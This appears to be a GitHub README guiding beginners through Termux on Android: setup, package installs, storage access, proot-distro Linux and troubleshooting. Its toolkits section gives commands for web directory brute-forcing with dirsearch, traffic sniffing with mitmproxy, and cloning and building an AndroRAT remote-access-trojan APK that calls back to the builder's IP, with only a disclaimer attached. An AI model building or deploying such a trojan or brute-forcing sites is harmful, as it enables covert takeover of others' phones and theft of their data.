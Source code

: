 # 📱🪲🐊📟🍁🌿🌾 About Termux – Complete Guide for Beginners & Power Users

> This repository is a complete, beginner-friendly guide to using **Termux** on Android. Learn how to set it up, install powerful tools, and use Linux like a pro – all from your phone, with or without root access.

---

## 📚 Table of Contents

1. [🍁 What is Termux?](#-what-is-termux)
   
3. [🔧 Initial Setup](#-initial-setup)
   
5. [🛠️ Essential Tools](#-essential-tools)
   
7. [📂 Storage Access](#-storage-access)
   
9. [💻 Linux in Termux (Proot-Distro)](#-linux-in-termux-(proot-distro))
    
11. [🧰 Toolkits & Use Cases](#-toolkits--use-cases)
    
13. [⚠️ Troubleshooting & Tips](#-troubleshooting--tips)
    
15. [🧠 Contribute](#-contribute)

---

## 🍁 What is Termux?

**Termux** is an Android terminal emulator and Linux environment app that doesn’t require rooting. You can:

- Run Linux packages and shells
- Install programming environments (Python, Node, etc.)
- Run SSH servers, Git, Kali, Ubuntu, and more!

🔗 [Official Termux F-Droid Page](https://f-droid.org/packages/com.termux/)

---

## 🔧 Initial Setup

1. ✅ **Install Termux from F-Droid** *(Do NOT use Play Store version)*

➤ [https://f-droid.org/packages/com.termux/](https://f-droid.org/packages/com.termux/)

2. ✅ **Update,Upgrade and install basic Essentials**
```
termux-setup-storage
pkg update && pkg upgrade -y
pkg install wget -y
pkg install git -y
pkg install tur-repo -y
pkg install x11-repo -y
pkg install termux-x11-nightly -y
pkg install pulseaudio -y
pkg install curl -y
```

4. ✅ Fix Mirrors (if slow)
```
termux-change-repo
```

---

## 🛠️ Essential Tools

python	
```
pkg install python	
```

proot-distro (Install full Linux distributions)
```
pkg install proot-distro	
```

openssh	(SSH server/client)
```
pkg install openssh	
```

termux-api (Access Android functions)
```
pkg install termux-api	
```

---

## 📂 Storage Access

To access your internal/shared storage (DCIM, Downloads, etc.):
```
termux-setup-storage
```

A popup will request permission. Tap Allow.

Access shared storage via:
```
cd /storage/emulated/0/
```

---

## 💻 Linux in Termux (Proot-Distro)

Want full Linux inside Termux? Use proot-distro.

✅ Install Ubuntu / Kali / Fedora:
```
proot-distro install ubuntu
proot-distro login ubuntu
```

Now you’re inside Ubuntu. You can install tools with apt, set up xfce, mitmproxy, dirsearch, and more.


---

## 🧰 Toolkits & Use Cases

🔎 Dirsearch (Web Directory Brute Force)
```
git clone https://github.com/maurosoria/dirsearch.git
cd dirsearch
pip install -r requirements.txt
python3 dirsearch.py -u https://example.com -e php,html
```

---

🔍 mitmproxy (HTTP/HTTPS Sniffer)
```
pip install mitmproxy
mitmproxy --listen-port 8080
```

Use to inspect mobile traffic. For advanced use, install cert on second device, set proxy, and run HTTP server.


---

🐍 AndroRAT (Educational RAT)
```
git clone https://github.com/karma9874/AndroRAT.git
cd AndroRAT
python3 -m venv env
source env/bin/activate
pip install -r requirements.txt
python3 androRAT.py --build -i <your_ip> -p 8000 -o rat.apk
```

⚠️ For educational use only. Never use without consent.


---

⚠️ Troubleshooting & Tips

Issue	Fix Command

Network tools not working	
```
pkg install net-tools
```

Package errors or 403s	
```
termux-change-repo
```

Storage access denied	
```
termux-setup-storage
```
and restart Termux

Slow repo or package install
Use mirrors via 
```
termux-change-repo
```

Permission denied errors	
Ensure files have execution permission: 
chmod +x tool_name



---

## 🧠 Contribute

Have useful commands or scripts?
PRs and issues are welcome!


---

📢 Stay Updated

🔗 Termux Wiki

🔗 r/termux subreddit

🔗 Awesome-Termux List



---

> Made with 💻❤️ by @mikey-7x – Keep hacking, keep learning!



---



